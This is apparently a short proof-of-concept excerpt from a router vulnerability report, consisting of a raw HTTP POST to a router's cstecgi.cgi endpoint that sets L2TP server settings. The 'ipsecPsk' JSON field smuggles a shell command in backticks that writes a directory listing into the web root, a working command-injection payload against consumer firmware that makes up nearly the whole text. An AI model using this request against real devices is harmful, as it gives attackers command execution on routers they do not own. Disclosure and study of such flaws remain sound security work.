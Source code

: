 
### `ipsecPsk`

```
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 233
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"0","ipsecPsk":"`ls >/web/poc_l2tp_ipsecPsk.txt`","topicurl":"setL2tpServerCfg"}
```

![image-20241029115409982](./X6000R/images/image-20241029115409982.png)
